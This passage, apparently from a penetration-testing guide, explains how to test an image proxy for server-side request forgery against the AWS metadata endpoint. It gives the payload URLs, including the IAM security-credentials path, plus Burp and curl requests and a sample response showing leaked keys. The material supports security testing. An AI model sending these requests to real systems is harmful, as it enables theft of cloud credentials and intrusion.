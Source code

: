 ## 2. SSRF via Proxy (Cloud Metadata Endpoint)
**Objective**: Test if the image proxy can access cloud provider metadata endpoints (e.g., AWS’s `http://169.254.169.254/latest/meta-data/`), which could leak sensitive instance data like IAM credentials.

### Implementation Steps
1. **Understand the Target Environment**:
   - Research if the application runs on a cloud provider (e.g., AWS, Azure, GCP). The AWS metadata endpoint (`http://169.254.169.254/latest/meta-data/`) is a common SSRF target.
   - Confirm the proxy endpoint (e.g., `https://example.com/image?url=` or `POST /api/image/fetch`).

2. **Craft the Payload**:
   - Use the AWS metadata endpoint: `http://169.254.169.254/latest/meta-data/`.
   - URL-encoded payload: `http%3A%2F%2F169.254.169.254%2Flatest%2Fmeta-data%2F`.
   - For POST requests, prepare:
     ```json
     {"url": "http://169.254.169.254/latest/meta-data/"}
     ```
   - Optionally, target specific metadata like IAM credentials:
     - `http://169.254.169.254/latest/meta-data/iam/security-credentials/`.

3. **Send the Request**:
   - **Using Burp Suite**:
     - Intercept a request to the image proxy or use Burp Repeater.
     - Example GET request:
       ```
       GET /image?url=http://169.254.169.254/latest/meta-data/ HTTP/1.1
       Host: example.com
       ```
     - Example POST request:
       ```
       POST /api/image/fetch HTTP/1.1
       Host: example.com
       Content-Type: application/json

       {"url": "http://169.254.169.254/latest/meta-data/"}
       ```
   - **Using cURL**:
     ```bash
     curl -X GET "https://example.com/image?url=http://169.254.169.254/latest/meta-data/"
     ```
     or
     ```bash
     curl -X POST -H "Content-Type: application/json" -d '{"url":"http://169.254.169.254/latest/meta-data/"}' https://example.com/api/image/fetch
     ```

4. **Analyze the Response**:
   - **Success Case**: If the response contains cloud metadata (e.g., instance ID, IAM roles, or security credentials), the proxy is vulnerable. Example response:
     ```
     instance-id
     ami-id
     iam/security-credentials/role-name
     ```
     - If you target `/iam/security-credentials/role-name`, you might get:
       ```json
       {
         "AccessKeyId": "ASIA...",
         "SecretAccessKey": "abcd...",
         "Token": "xyz..."
       }
       ```